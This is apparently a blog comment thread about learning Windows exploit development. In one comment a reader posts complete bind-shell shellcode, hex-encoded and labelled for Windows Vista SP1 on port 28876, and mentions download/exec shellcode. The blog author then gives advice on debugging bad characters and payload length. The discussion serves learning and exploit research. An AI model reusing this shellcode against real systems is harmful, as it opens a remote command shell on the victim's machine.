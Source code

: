 tekwizz123,

Well, after your advice I managed to find some working bind shellcode:

#windows vista Sp1 bindport:28876
\\x31\\xC9\\x64\\x8B\\x71\\x30\\x8B\\x76\\x0C\\x8B\\x76\\x1C\\x8B\\x6E\\x08\\x8B
\\x7E\\x20\\x8B\\x36\\x38\\x4F\\x18\\x75\\xF3\\x6A\\x32\\x68\\x73\\x32\\x5F\\x33
\\x68\\x30\\x20\\x41\\x77\\x68\\x81\\x59\\xD3\\x62\\x89\\xE6\\xB5\\x03\\x29\\xCC
\\x29\\xCC\\x89\\xE7\\xD6\\xF3\\xAA\\x41\\x51\\x41\\x51\\x57\\x51\\x83\\xEF\\x2C
\\xA4\\x4F\\x8B\\x5D\\x3C\\x8B\\x5C\\x1D\\x78\\x01\\xEB\\x8B\\x4B\\x20\\x01\\xE9
\\x56\\x31\\xD2\\x42\\x8B\\x34\\x91\\x01\\xEE\\x31\\xC0\\xAC\\x34\\x71\\x28\\xC4
\\x3C\\x71\\x75\\xF7\\x3A\\x27\\x75\\xEB\\x5E\\x8B\\x4B\\x24\\x01\\xE9\\x0F\\xB7
\\x14\\x51\\x8B\\x4B\\x1C\\x01\\xE9\\x89\\xE8\\x03\\x04\\x91\\xAB\\x80\\x3E\\xD3
\\x75\\x08\\x8D\\x5E\\x05\\x53\\xFF\\xD0\\x57\\x95\\x80\\x3E\\x77\\x75\\xB1\\x5E
\\xAD\\xFF\\xD0\\xAD\\xFF\\xD0\\x95\\x81\\x2F\\xFE\\xFF\\x8F\\x33\\x6A\\x10\\x57
\\xAD\\x55\\xFF\\xD0\\x85\\xC0\\x74\\xF8\\x31\\xD2\\x52\\x68\\x63\\x6D\\x64\\x20
\\x8D\\x7C\\x24\\x38\\xAB\\xAB\\xAB\\xC6\\x47\\xE9\\x01\\x54\\x87\\x3C\\x24\\x57
\\x52\\x52\\x52\\xC6\\x47\\xEF\\x08\\x57\\x52\\x52\\x57\\x52\\xFF\\x56\\xE4\\x8B
\\x46\\xFC\\xEB\\xCD

I also was able to find additional shellcode for some download/exec. I'm not good enough yet to troubleshoot the initial msfvenom output shellcode to understand why its not working, but the other shellcode that does appear to work has all been xp/vista specific (I'm running win Vista x86, btw)
you were right, I dont think there were/are any badchars, but why would this shellcode work and not the others of similar size?

ps: I even tried adding additional breakpoints /xcc, to get it to stop within my shellcode but still not luck
<hr />
#### Hmm its possible that your other shellcode assumed...
[thetekwizz](https://www.blogger.com/profile/07021907186760706163 "noreply@blogger.com") - <time datetime="2020-01-23T16:27:10.906-08:00">Jan 4, 2020</time>

Hmm its possible that your other shellcode assumed certain things that were only available in Windows 7 and later, although I couldn't say without you providing some examples of things that didn't work.

Again hard to say, but if the shellcode wasn't working even with you inserting breakpoints I would most likely say it was some bad character or some bad input etc cause normally at the very least it should hit a breakpoint if you place a few before your shellcode. Not hitting breakpoints makes me think somehow the input got screwed up so badly that it wasn't even able to hit the shellcode. That being said I would also want to know if you still have EIP/RIP control after you insert the bad shellcode; if not that kind of confirms my theory that your shellcode is somehow malforming input in such a way that it is altering something. Whether that is a bad character, a shellcode length issue, or otherwise would then be best determined by starting with the first line, and slowly doing tests with an additional line being sent on each test, until the issue is repeated again. At that point you can start playing around and set the same amount of bytes to some known good character like \\x41 and then see if the issue repeats itself. If it doesn't you know its a bad character. If it still does, you know its a length issue, and you can try again with less characters.
<hr />
#### Thanks for your time and contribution. Following y...
[trying](https://www.blogger.com/profile/17192544622237434267 "noreply@blogger.com") - <time datetime="2020-05-13T09:15:34.991-07:00">May 3, 2020</time>
